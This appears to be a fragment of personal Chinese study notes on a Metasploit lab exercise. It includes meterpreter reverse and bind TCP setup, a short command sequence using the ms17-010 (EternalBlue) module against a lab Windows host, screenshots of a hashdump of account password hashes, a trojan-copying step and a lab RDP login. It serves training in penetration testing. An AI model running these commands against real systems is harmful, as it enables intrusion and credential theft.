 ![](vx_images/2595902167150.png)
### reverse_tcp 的设置案例



![meterpreter原理](vx_images/965803127309.png)

![LHOST, LPORT ??? 【】 (vx_images/1428907119978.png)

【】
![反向TCP-Kali外网IP=10.2.1.219, RHost=10.2.2.X肉鸡](vx_images/5336418116533.png)



#### search ms17-010  【搜索模块】

use exploit/multi/handler  【???】
set payload windows/x64/meterpreter/bind_tcp  【正向攻击和木马 ??? 】
show options
set rhost 10.2.2.47  【靶机IP】    ???
set lport 8899   【要放到木马上的端口 ??? 】
run

![ms17-010: show options](vx_images/4510126112287.png)    【 RHOST, kali的IP】


![ms17-010: 445-exploit/run  failed - IPConfig -ping](vx_images/3244426159276.png)

![ms17-010 run 成功](vx_images/1657352147143.png)

![win run通道开通成功](vx_images/5206055159978.png)

![run成功后，hashdump找到各个账户及md5密码](vx_images/4867306166533.png)
##### 1.3 把木马拷贝到靶机




#### 2、作为靶机维护者

##### 2.1 win上安装一个VPN
01.03-win端VPN工具-openconnect.exe
连接远端后，本机ipconfig 可以看到 多一个网卡：
以太网适配器 以太网 4:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::8599:4a27:827d:5186%76
   IPv4 地址 . . . . . . . . . . . . : 10.2.0.213
   子网掩码  . . . . . . . . . . . . : 255.255.254.0
   默认网关. . . . . . . . . . . . . :

----------------------------------

##### windows 中的远程桌面，输入靶机IP，端口默认3389
pc/123456
